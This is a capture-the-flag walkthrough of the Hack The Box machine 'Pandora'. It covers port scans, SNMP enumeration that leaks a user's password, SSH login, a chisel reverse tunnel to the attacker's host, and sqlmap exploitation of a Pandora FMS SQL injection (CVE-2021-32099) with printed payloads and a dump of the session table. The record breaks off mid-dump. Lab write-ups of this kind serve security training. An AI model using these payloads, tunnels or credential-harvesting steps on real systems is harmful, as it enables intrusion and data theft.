

# Pandora

# Nmap

As always, we’ve started executing a full port scan.

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Now, a detailed versioned port scan.

```bash
─[us-dedivip-1]─[10.10.14.115]─[th3g3ntl3m4n@htb]─[~/htb/Pandora]                                                                                                                             
└──╼ [★]$ sudo nmap -vv -A -Pn -p 22,80 10.10.11.136 -oA nmap/pandora

PORT   STATE SERVICE REASON         VERSION                                                                                                                                                   
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                              
| ssh-hostkey:                                                                                                                                                                                
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)                                                                                                                                
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDPIYGoHvNFwTTboYexVGcZzbSLJQsxKopZqrHVTeF8oEIu0iqn7E5czwVkxRO/icqaDqM+AB3QQVcZSDaz//XoXsT/NzNIbb9SERrcK/n8n9or4IbXBEtXhRvltS8NABsOTuhiNo/2fdPYCVJ/HyF5
YmbmtqUPols6F5y/MK2Yl3eLMOdQQeax4AWSKVAsR+issSZlN2rADIvpboV7YMoo3ktlHKz4hXlX6FWtfDN/ZyokDNNpgBbr7N8zJ87+QfmNuuGgmcZzxhnzJOzihBHIvdIM4oMm4IetfquYm1WKG3s5q70jMFrjp4wCyEVbxY+DcJ54xjqbaNHhVwiSWU
ZnAyWe4gQGziPdZH2ULY+n3iTze+8E4a6rxN3l38d1r4THoru88G56QESiy/jQ8m5+Ang77rSEaT3Fnr6rnAF5VG1+kiA36rMIwLabnxQbAWnApRX9CHBpMdBj7v8oLhCRn7ZEoPDcD1P2AASdaDJjRMuR52YPDlUSDd8TnI/DFFs=                
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)                                                                                                                               
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNNJGh4HcK3rlrsvCbu0kASt7NLMvAUwB51UnianAKyr9H0UBYZnOkVZhIjDea3F/CxfOQeqLpanqso/EqXcT9w=                            
|   256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)                                                                                                                             
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOCMYY9DMj/I+Rfosf+yMuevI7VFIeeQfZSxq67EGxsb                                                                                                            
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))                                                                                                                            
|_http-title: Play | Landing                                                                                                                                                                  
| http-methods:                                                                                                                                                                               
|_  Supported Methods: HEAD GET POST OPTIONS                                                                                                                                                  
|_http-favicon: Unknown favicon MD5: 115E49F9A03BB97DEB840A3FE185434C                                                                                                                         
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                                                                                                                  
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port                                                                                         
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete                                                                                                             
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6
.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
```

Let’s perform a UDP port scan too.

```bash
─[us-dedivip-1]─[10.10.14.115]─[th3g3ntl3m4n@htb]─[~/htb/Pandora]                                                                                                                             
└──╼ [★]$ sudo nmap -v -sUV -Pn 10.10.11.136 -oA nmap/udp

PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
Service Info: Host: pandora
```

# Enumeration

Accessing the webpage, we’ve got.



We’ve wrote panda.htb in our hosts file. Let’s executing a brute-force directories.

```bash
─[us-dedivip-1]─[10.10.14.115]─[th3g3ntl3m4n@htb]─[~/htb/Pandora]
└──╼ [★]$ gobuster dir -e -u "http://10.10.11.136/" -w "/opt/SecLists/Discovery/Web-Content/raft-small-words.txt" -t 40 -x .php,.txt -o gobuster/pandora | grep -v "(Status: 403)"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.136/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2022/01/17 14:24:31 Starting gobuster in directory enumeration mode
===============================================================
http://10.10.11.136/assets               (Status: 301) [Size: 313] [--> http://10.10.11.136/assets/]
http://10.10.11.136/.                    (Status: 200) [Size: 33560]                                
                                                                                                    
===============================================================
2022/01/17 14:32:53 Finished
===============================================================
```

Let’s enumerate the SNMP service running on port 161. 

```bash
─[us-dedivip-1]─[10.10.14.115]─[th3g3ntl3m4n@htb]─[~/htb/Pandora]
└──╼ [★]$ sudo snmpwalk -v1 -c public 10.10.11.136 -O a
iso.3.6.1.2.1.1.1.0 = STRING: "Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (378109) 1:03:01.09
iso.3.6.1.2.1.1.4.0 = STRING: "Daniel"
iso.3.6.1.2.1.1.5.0 = STRING: "pandora"
iso.3.6.1.2.1.1.6.0 = STRING: "Mississippi"

...

iso.3.6.1.2.1.25.4.2.1.4.5975 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.6112 = STRING: "sshd: daniel [priv]"
iso.3.6.1.2.1.25.4.2.1.4.6241 = STRING: "sshd: daniel@pts/0"
iso.3.6.1.2.1.25.4.2.1.4.6244 = STRING: "-bash"
iso.3.6.1.2.1.25.4.2.1.4.6279 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.6322 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.6323 = STRING: "sh"
iso.3.6.1.2.1.25.4.2.1.4.6324 = STRING: "nc"
iso.3.6.1.2.1.25.4.2.1.4.6325 = STRING: "/bin/sh"
iso.3.6.1.2.1.25.4.2.1.4.6822 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.7666 = ""
iso.3.6.1.2.1.25.4.2.1.4.8083 = ""
iso.3.6.1.2.1.25.4.2.1.4.8518 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.8582 = ""
iso.3.6.1.2.1.25.4.2.1.4.8583 = ""
iso.3.6.1.2.1.25.4.2.1.4.8593 = STRING: "sshd: daniel [priv]"
iso.3.6.1.2.1.25.4.2.1.4.8699 = STRING: "sshd: daniel@pts/7"
iso.3.6.1.2.1.25.4.2.1.4.8703 = STRING: "-bash"
iso.3.6.1.2.1.25.4.2.1.4.9117 = ""
iso.3.6.1.2.1.25.4.2.1.4.9149 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.9245 = ""
iso.3.6.1.2.1.25.4.2.1.4.9652 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.9658 = STRING: "sh"
iso.3.6.1.2.1.25.4.2.1.4.9662 = STRING: "/bin/sh"
iso.3.6.1.2.1.25.4.2.1.4.9675 = STRING: "python3"
iso.3.6.1.2.1.25.4.2.1.4.9676 = STRING: "/bin/bash"
iso.3.6.1.2.1.25.4.2.1.4.9707 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.9708 = STRING: "sh"
iso.3.6.1.2.1.25.4.2.1.4.9712 = STRING: "/bin/sh"
iso.3.6.1.2.1.25.4.2.1.4.9732 = STRING: "pandora_backup"

...

iso.3.6.1.2.1.25.4.2.1.5.765 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.769 = STRING: "--system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only"
iso.3.6.1.2.1.25.4.2.1.5.776 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.788 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
iso.3.6.1.2.1.25.4.2.1.5.790 = STRING: "--foreground"
iso.3.6.1.2.1.25.4.2.1.5.794 = STRING: "/usr/bin/networkd-dispatcher --run-startup-triggers"
iso.3.6.1.2.1.25.4.2.1.5.798 = STRING: "-n -iNONE"
iso.3.6.1.2.1.25.4.2.1.5.807 = ""
iso.3.6.1.2.1.25.4.2.1.5.809 = ""
iso.3.6.1.2.1.25.4.2.1.5.814 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.817 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
iso.3.6.1.2.1.25.4.2.1.5.833 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.840 = ""
iso.3.6.1.2.1.25.4.2.1.5.922 = STRING: "-o -p -- \\u --noclear tty1 linux"
iso.3.6.1.2.1.25.4.2.1.5.953 = STRING: "--no-debug"
iso.3.6.1.2.1.25.4.2.1.5.978 = ""
iso.3.6.1.2.1.25.4.2.1.5.1002 = ""
iso.3.6.1.2.1.25.4.2.1.5.1105 = STRING: "--user"
iso.3.6.1.2.1.25.4.2.1.5.1106 = ""
iso.3.6.1.2.1.25.4.2.1.5.1276 = ""
iso.3.6.1.2.1.25.4.2.1.5.1282 = ""
iso.3.6.1.2.1.25.4.2.1.5.1296 = STRING: "-u daniel -p HotelBabylon23"
iso.3.6.1.2.1.25.4.2.1.5.1301 = ""
iso.3.6.1.2.1.25.4.2.1.5.1392 = ""
iso.3.6.1.2.1.25.4.2.1.5.1393 = ""
iso.3.6.1.2.1.25.4.2.1.5.1474 = ""
iso.3.6.1.2.1.25.4.2.1.5.1475 = ""
iso.3.6.1.2.1.25.4.2.1.5.1865 = STRING: "ex_pandora.py"

...

```

After a lot of searching, we’ve got the possible daniel’s credentials. Let’s try to log on SSH service

```bash
─[us-dedivip-1]─[10.10.14.115]─[th3g3ntl3m4n@htb]─[~/htb/Pandora]
└──╼ [★]$ ssh daniel@panda.htb
daniel@panda.htb's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 18 Jan 22:46:52 UTC 2022

  System load:  0.01              Processes:             244
  Usage of /:   63.0% of 4.87GB   Users logged in:       1
  Memory usage: 9%                IPv4 address for eth0: 10.10.11.136
  Swap usage:   0%

  => /boot is using 91.8% of 219MB

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Jan 18 22:43:39 2022 from 10.10.16.27
daniel@pandora:~$ id
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel)
```

We’re in!

| USER | PASSWORD |
| --- | --- |
| daniel | HotelBabylon23 |

Searching by some binary SUID, we’ve got.

```bash
daniel@pandora:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
```

The pandora_backup  calls our attention.

```bash
daniel@pandora:~$ ls -la /usr/bin/pandora_backup
-rwsr-x--- 1 root matt 16816 Dec  3 15:58 /usr/bin/pandora_backup
```

But it looks like we got to get the matt user permission in order to escalate our privilege then to root.

Searching for something in `/var` directory, we’ve found.

```bash
daniel@pandora:/var/www$ ls -la
total 16
drwxr-xr-x  4 root root 4096 Dec  7 14:32 .
drwxr-xr-x 14 root root 4096 Dec  7 14:32 ..
drwxr-xr-x  3 root root 4096 Dec  7 14:32 html
drwxr-xr-x  3 matt matt 4096 Dec  7 14:32 pandora
daniel@pandora:/var/www$ cd pandora
daniel@pandora:/var/www/pandora$ ls -la
total 16
drwxr-xr-x  3 matt matt 4096 Dec  7 14:32 .
drwxr-xr-x  4 root root 4096 Dec  7 14:32 ..
-rw-r--r--  1 matt matt   63 Jun 11  2021 index.html
drwxr-xr-x 16 matt matt 4096 Dec  7 14:32 pandora_console
```

 

Verifying the local services running on machine we’ve got.

```bash
daniel@pandora:/var$ netstat -nlpt
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Trying to connect locally on webserver running on port 80, we’ve got.


Using `curl` command, we’ve got a different response.

```bash
daniel@pandora:/tmp$ curl -L http://localhost
<meta HTTP-EQUIV="REFRESH" content="0; url=/pandora_console/">

daniel@pandora:/tmp$ curl -L http://localhost
<meta HTTP-EQUIV="REFRESH" content="0; url=/pandora_console/">
daniel@pandora:/tmp$ curl -L http://localhost:80/pandora_console/
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>

        <title>Pandora FMS - the Flexible Monitoring System</title>
                <meta http-equiv="expires" content="never" />
                <meta http-equiv="content-type" content="text/html; charset=utf-8" />
                <meta http-equiv="Content-Style-Type" content="text/css" />
                <meta name="resource-type" content="document" />
                <meta name="distribution" content="global" />
                <meta name="author" content="Ártica ST" />
                <meta name="copyright" content="(c) Ártica ST" />
                <meta name="robots" content="index, follow" /><link rel="icon" href="images/pandora.ico" type="image/ico" />
                <link rel="shortcut icon" href="images/pandora.ico" type="image/x-icon" />

...
```

Let’s use chisel tool to create a tunnel where we are able to access the webpage from our local machine.

On our local machine.

```bash
─[us-dedivip-1]─[10.10.14.115]─[th3g3ntl3m4n@htb]─[~/htb/images/www]
└──╼ [★]$ ./chisel server -p 8888 --reverse
2022/01/19 08:47:34 server: Reverse tunnelling enabled
2022/01/19 08:47:34 server: Fingerprint KSpf24u/dltvamf7S8i9DMEZIJ0XxzqIQi3LRtMwtI0=
2022/01/19 08:47:34 server: Listening on http://0.0.0.0:8888
2022/01/19 11:00:36 server: session#1: tun: proxy#R:8001=>80: Listening
2022/01/19 11:03:15 server: session#2: tun: proxy#R:8001=>80: Listening
```

and the target machine.

```bash
daniel@pandora:/tmp$ ./chisel client 10.10.14.115:8888 R:8001:127.0.0.1:80
2022/01/19 14:52:00 client: Connecting to ws://10.10.14.115:8888
2022/01/19 14:52:01 client: Connected (Latency 167.857773ms)
```

Now we’ve have a service running on our port 8001.

```bash
─[us-dedivip-1]─[10.10.14.115]─[th3g3ntl3m4n@htb]─[~/htb/images/exploitation]
└──╼ [★]$ netstat -nlpt
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5433          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8888                 :::*                    LISTEN      477835/./chisel     
tcp6       0      0 ::1:5432                :::*                    LISTEN      -                   
tcp6       0      0 ::1:5433                :::*                    LISTEN      -                   
tcp6       0      0 :::8001                 :::*                    LISTEN      477835/./chisel
```

Let’s access it on our browser.


As we can see, it is running a Pandora FMS application. And on bottom of page, we’ve the version.


Let’s searching for any public exploit.

| EXPLOIT |
| --- |
| https://github.com/nikn0laty/CVE-2021-32099_exploit |

Accessing the URL [`http://localhost:8001/pandora_console/include/chart_generator.php?session_id='`](http://localhost:8001/pandora_console/include/chart_generator.php?session_id=%27) we’ve triggered a SQL error. That could lead us to a SQL Injection vulnerability.


Running sqlmap on this URL.

```bash
─[us-dedivip-1]─[10.10.14.115]─[th3g3ntl3m4n@htb]─[~/htb/images/exploitation]
└──╼ [★]$ sqlmap -u "http://localhost:8001/pandora_console/include/chart_generator.php?session_id=teste" --dbms=mysql

GET parameter 'session_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 239 HTTP(s) requests:
---
Parameter: session_id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: session_id=-7947' OR 3366=3366#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: session_id=teste' OR (SELECT 2538 FROM(SELECT COUNT(*),CONCAT(0x71787a6a71,(SELECT (ELT(2538=2538,1))),0x716a767171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- rCtY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session_id=teste' AND (SELECT 4631 FROM (SELECT(SLEEP(5)))hwrx)-- EvMF
---
[12:03:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (eoan or focal)
web application technology: PHP, Apache 2.4.41
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

Let’s try to retrieve some data.

```bash
─[us-dedivip-1]─[10.10.14.115]─[th3g3ntl3m4n@htb]─[~/htb/images/exploitation]
└──╼ [★]$ sqlmap -u "http://localhost:8001/pandora_console/include/chart_generator.php?session_id=teste" --dbms=mysql --current-db

[12:06:39] [INFO] fetching current database
[12:06:39] [INFO] retrieved: 'pandora'
current database: 'pandora'
```

Now, let’s get the tables from pandora database.

```bash
─[us-dedivip-1]─[10.10.14.115]─[th3g3ntl3m4n@htb]─[~/htb/images/exploitation]
└──╼ [★]$ sqlmap -u "http://localhost:8001/pandora_console/include/chart_generator.php?session_id=teste" --dbms=mysql -D pandora --tables

Database: pandora
[178 tables]
+------------------------------------+
| taddress                           |
| taddress_agent                     |
| tagent_access                      |
| tagent_custom_data                 |
| tagent_custom_fields               |
| tagent_custom_fields_filter        |
| tagent_module_inventory            |
| tagent_module_log                  |
| tagent_repository                  |
| tagent_secondary_group             |
| tagente                            |
| tagente_datos                      |
| tagente_datos_inc                  |
| tagente_datos_inventory            |
| tagente_datos_log4x                |
| tagente_datos_string               |
| tagente_estado                     |
| tagente_modulo                     |
| talert_actions                     |
| talert_commands                    |
| talert_snmp                        |
| talert_snmp_action                 |
| talert_special_days                |
| talert_template_module_actions     |
| talert_template_modules            |
| talert_templates                   |
| tattachment                        |
| tautoconfig                        |
| tautoconfig_actions                |
| tautoconfig_rules                  |
| tcategory                          |
| tcluster                           |
| tcluster_agent                     |
| tcluster_item                      |
| tcollection                        |
| tconfig                            |
| tconfig_os                         |
| tcontainer                         |
| tcontainer_item                    |
| tcredential_store                  |
| tdashboard                         |
| tdatabase                          |
| tdeployment_hosts                  |
| tevent_alert                       |
| tevent_alert_action                |
| tevent_custom_field                |
| tevent_extended                    |
| tevent_filter                      |
| tevent_response                    |
| tevent_rule                        |
| tevento                            |
| textension_translate_string        |
| tfiles_repo                        |
| tfiles_repo_group                  |
| tgis_data_history                  |
| tgis_data_status                   |
| tgis_map                           |
| tgis_map_connection                |
| tgis_map_has_tgis_map_con          |
| tgis_map_layer                     |
| tgis_map_layer_groups              |
| tgis_map_layer_has_tagente         |
| tgraph                             |
| tgraph_source                      |
| tgraph_source_template             |
| tgraph_template                    |
| tgroup_stat                        |
| tgrupo                             |
| tincidencia                        |
| titem                              |
| tlanguage                          |
| tlayout                            |
| tlayout_data                       |
| tlayout_template                   |
| tlayout_template_data              |
| tlink                              |
| tlocal_component                   |
| tlog_graph_models                  |
| tmap                               |
| tmensajes                          |
| tmetaconsole_agent                 |
| tmetaconsole_agent_secondary_group |
| tmetaconsole_event                 |
| tmetaconsole_event_history         |
| tmetaconsole_setup                 |
| tmigration_module_queue            |
| tmigration_queue                   |
| tmodule                            |
| tmodule_group                      |
| tmodule_inventory                  |
| tmodule_relationship               |
| tmodule_synth                      |
| tnetflow_filter                    |
| tnetflow_report                    |
| tnetflow_report_content            |
| tnetwork_component                 |
| tnetwork_component_group           |
| tnetwork_map                       |
| tnetwork_matrix                    |
| tnetwork_profile                   |
| tnetwork_profile_component         |
| tnetworkmap_ent_rel_nodes          |
| tnetworkmap_enterprise             |
| tnetworkmap_enterprise_nodes       |
| tnews                              |
| tnota                              |
| tnotification_group                |
| tnotification_source               |
| tnotification_source_group         |
| tnotification_source_group_user    |
| tnotification_source_user          |
| tnotification_user                 |
| torigen                            |
| tpassword_history                  |
| tperfil                            |
| tphase                             |
| tplanned_downtime                  |
| tplanned_downtime_agents           |
| tplanned_downtime_modules          |
| tplugin                            |
| tpolicies                          |
| tpolicy_agents                     |
| tpolicy_alerts                     |
| tpolicy_alerts_actions             |
| tpolicy_collections                |
| tpolicy_groups                     |
| tpolicy_modules                    |
| tpolicy_modules_inventory          |
| tpolicy_plugins                    |
| tpolicy_queue                      |
| tprofile_view                      |
| tprovisioning                      |
| tprovisioning_rules                |
| trecon_script                      |
| trecon_task                        |
| trel_item                          |
| tremote_command                    |
| tremote_command_target             |
| treport                            |
| treport_content                    |
| treport_content_item               |
| treport_content_item_temp          |
| treport_content_sla_com_temp       |
| treport_content_sla_combined       |
| treport_content_template           |
| treport_custom_sql                 |
| treport_template                   |
| treset_pass                        |
| treset_pass_history                |
| tserver                            |
| tserver_export                     |
| tserver_export_data                |
| tservice                           |
| tservice_element                   |
| tsesion                            |
| tsesion_extended                   |
| tsessions_php                      |
| tskin                              |
| tsnmp_filter                       |
| ttag                               |
| ttag_module                        |
| ttag_policy_module                 |
| ttipo_modulo                       |
| ttransaction                       |
| ttrap                              |
| ttrap_custom_values                |
| tupdate                            |
| tupdate_journal                    |
| tupdate_package                    |
| tupdate_settings                   |
| tuser_double_auth                  |
| tuser_task                         |
| tuser_task_scheduled               |
| tusuario                           |
| tusuario_perfil                    |
| tvisual_console_elements_cache     |
| twidget                            |
| twidget_dashboard                  |
+------------------------------------+
```

Let’s dump the data from `tsessions_php` table.

```bash
─[us-dedivip-1]─[10.10.14.115]─[th3g3ntl3m4n@htb]─[~/htb/images/exploitation]
└──╼ [★]$ sqlmap -u "http://localhost:8001/pandora_console/include/chart_generator.php?session_id=teste" --dbms=mysql -D pandora -T 'tsessions_php' --columns

Database: pandora
Table: tsessions_php
[3 columns]
+-------------+----------+
| Column      | Type     |
+-------------+----------+
| data        | text     |
| id_session  | char(52) |
| last_active | int(11)  |
+-------------+----------+

─[us-dedivip-1]─[10.10.14.115]─[th3g3ntl3m4n@htb]─[~/htb/images/exploitation]                                                                                                                
└──╼ [★]$ sqlmap -u "http://localhost:8001/pandora_console/include/chart_generator.php?session_id=teste" --dbms=mysql -D pandora -T 'tsessions_php' --dump

Database: pandora
Table: tsessions_php
[60 entries]
+----------------------------+------------------------------------------------------+-------------+
| id_session                 | data                                                 | last_active |
+----------------------------+------------------------------------------------------+-------------+
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                             | 1638783555  |
| 0ahul7feb1l9db7ffp8d25sjba | NULL                                                 | 1638789018  |
| 10c8r3eg1v7kq6v9k5obabv7vo | id_usuario|s:5:"admin";alert_msg|a:0:{}new_chat|b:0; | 1642605472  |
| 1um23if7s531kqf5da14kf5lvm | NULL                                                 | 1638792211  |
| 26ed7i18dr3hj35ivbl4klc8or | id_usuario|s:6:"daniel";                             | 1642606191  |
| 2d8oattbknppj9vkebh7breqps | id_usuario|s:6:"daniel";                             | 1642607528  |
| 2e25c62vc3odbppmg6pjbf9bum | NULL                                                 | 1638786129  |
| 2jqu726ldvtdelubt9ik3aa419 | NULL                                                 | 1642606228  |
| 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                             | 1638540332  |
| 3me2jjab4atfa5f8106iklh4fc | NULL                                                 | 1638795380  |
| 4f51mju7kcuonuqor3876n8o02 | NULL                                                 | 1638786842  |
| 4finqaqa2mlge69s0gkidsdgle | NULL                                                 | 1642607293  |
| 4nsbidcmgfoh1gilpv8p5hpi2s | id_usuario|s:6:"daniel";                             | 1638535373  |
| 59qae699l0971h13qmbpqahlls | NULL                                                 | 1638787305  |
| 5fihkihbip2jioll1a8mcsmp6j | NULL                                                 | 1638792685  |
| 5i352tsdh7vlohth30ve4o0air | id_usuario|s:6:"daniel";                             | 1638281946  |
| 69gbnjrc2q42e8aqahb1l2s68n | id_usuario|s:6:"daniel";                             | 1641195617  |
| 6soi61k4349s723ah3gf3cifio | NULL                                                 | 1642603837  |
| 81f3uet7p3esgiq02d4cjj48rc | NULL                                                 | 1623957150  |
| 8m2e6h8gmphj79r9pq497vpdre | id_usuario|s:6:"daniel";                             | 1638446321  |
| 8upeameujo9nhki3ps0fu32cgd | NULL                                                 | 1638787267  |
| 9vv4godmdam3vsq8pu78b52em9 | id_usuario|s:6:"daniel";                             | 1638881787  |
| a3a49kc938u7od6e6mlip1ej80 | NULL                                                 | 1638795315  |
| a63kdonme5g9l0pekrck28ru00 | NULL                                                 | 1642608246  |
| agfdiriggbt86ep71uvm1jbo3f | id_usuario|s:6:"daniel";                             | 1638881664  |
| al8nmb1ld3jcmlfb2c7ielfenf | NULL                                                 | 1642607849  |
| cojb6rgubs18ipb35b3f6hf0vp | NULL                                                 | 1638787213  |
| d0carbrks2lvmb90ergj7jv6po | NULL                                                 | 1638786277  |
| f0qisbrojp785v1dmm8cu1vkaj | id_usuario|s:6:"daniel";                             | 1641200284  |
| fikt9p6i78no7aofn74rr71m85 | NULL                                                 | 1638786504  |
| fqd96rcv4ecuqs409n5qsleufi | NULL                                                 | 1638786762  |
| g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";                             | 1638783230  |
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0;  | 1638796349  |
| gf40pukfdinc63nm5lkroidde6 | NULL                                                 | 1638786349  |
| heasjj8c48ikjlvsf1uhonfesv | NULL                                                 | 1638540345  |
| hk3bnnmcvmk10nbp04cqh88u74 | NULL                                                 | 1642605321  |
| hsftvg6j5m3vcmut6ln6ig8b0f | id_usuario|s:6:"daniel";                             | 1638168492  |
| i2ceuvoubsptn4vuct5f741l3k | NULL                                                 | 1642606801  |
| ib63k26ik8rbv6n222vqcosrf6 | NULL                                                 | 1642605230  |
| iqv0037e1c8ue0e8i1f00vccjk | NULL                                                 | 1642605865  |
| jecd4v8f6mlcgn4634ndfl74rd | id_usuario|s:6:"daniel";                             | 1638456173  |
| kp90bu1mlclbaenaljem590ik3 | NULL                                                 | 1638787808  |
| mdgejpa9ibn8p5117k8ec01gua | id_usuario|s:6:"daniel";                             | 1642607734  |
| n663j9kcm0tcmc2alp1j0aatt2 | NULL                                                 | 1642608292  |
| n8nd5f8lfv8fs7q4prk4d3aolo | NULL                                                 | 1642608248  |
| nducbtmn8iket4hl50vsfupv72 | NULL                                                 | 1642605511  |
| ne9rt4pkqqd0aqcrr4dacbmaq3 | NULL                                                 | 1638796348  |
| nkva093pfub1v78fcldi01mbu4 | id_usuario|s:6:"daniel";                             | 1642594956  |
| o3kuq4m5t5mqv01iur63e1di58 | id_usuario|s:6:"daniel";                             | 1638540482  |
| oi2r6rjq9v99qt8q9heu3nulon | id_usuario|s:6:"daniel";                             | 1637667827  |
